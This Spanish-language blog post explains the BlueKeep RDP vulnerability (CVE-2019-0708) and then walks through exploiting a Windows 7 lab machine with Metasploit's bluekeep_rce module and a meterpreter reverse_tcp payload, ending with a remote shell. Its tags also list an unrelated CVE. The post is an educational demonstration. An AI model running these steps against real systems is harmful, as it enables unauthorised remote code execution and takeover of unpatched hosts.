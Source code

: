 ```yaml
---
layout: single
title: Explotación de CVE-2019-0708 - Vulnerabilidades
excerpt: "la vulnerabilidad del servicio de escritorio remoto de Windows BlueKeep permite a los usuarios no autenticados realizar la ejecución remota de código."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2019-0708/cve-2019-0708.png
  teaser_home_page: true
  icon: /assets/images/rdp.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2022-46169
  - BlueKeep
  - RDP
  - Metasploit
  
---
```


![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-0708.png)

## Descripción

Esta vulnerabilidad de ejecución remota de código afecta al Servicios de Escritorio Remoto (RDP), anteriormente conocidos como Terminal Server. Esta vulnerabilidad es de pre-autenticación y no requiere la interacción del usuario. En otras palabras, esta vulnerabilidad actúa como un Gusano, lo que significa que cualquier malware que explote el fallo podría propagarse rápidamente a otras máquinas vulnerables. Este caso es similar al malware WannaCry que se extendió por todo el mundo en el año 2017.

•	CVE: CVE-2019-0708

•	Factor de Riesgo: Alto

•	Valor CVSS Base: 9.8


## ¿Qué es BlueKeep?

BlueKeep es una vulnerabilidad de software que afecta a versiones antiguas de Microsoft Windows. El riesgo es significativo porque ataca el Protocolo de escritorio remoto (RDP) del sistema operativo, que permite conectar con otro ordenador a través de una conexión de red. De este modo, una ciberamenaza podría extenderse a gran velocidad. Se detectó por primera vez en mayo, en el Centro Nacional de Ciberseguridad del Reino Unido. Desde mediados de mayo de 2019.

## Productos Afectados:

•	Microsoft Windows 7 for 32-bit Systems SP1 

•	Microsoft Windows 7 for x64-based Systems SP1 

•	Microsoft Windows Server 2003

•	Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1 

•	Microsoft Windows Server 2008 R2 for x64-based Systems SP1 

•	Microsoft Windows Server 2008 for 32-bit Systems SP2

•	Microsoft Windows Server 2008 for Itanium-based Systems SP2 

•	Microsoft Windows Server 2008 for x64-based Systems SP2 

•	Microsoft Windows XP

# Explotación:

Para esta demostración atacaremos desde un sistema operativo Kali Linux y como equipo víctima utilizaremos un sistema Windows 7.

•	Ejecutamos en la terminal msfconsole para ejecutar Metasploit

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07081.png)

•	use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07082.png)

•	set PAYLOAD windows/x64/meterpreter/reverse_tcp

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07083.png)

•	set RHOSTS <dirección IP de la víctima> (x64 Windows 7 o 2008 R2)

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07084.png)

•	set TARGET a un objetivo más específico basado en su entorno

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07085.png)

Comprobemos que tenemos Shell.

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07086.png)
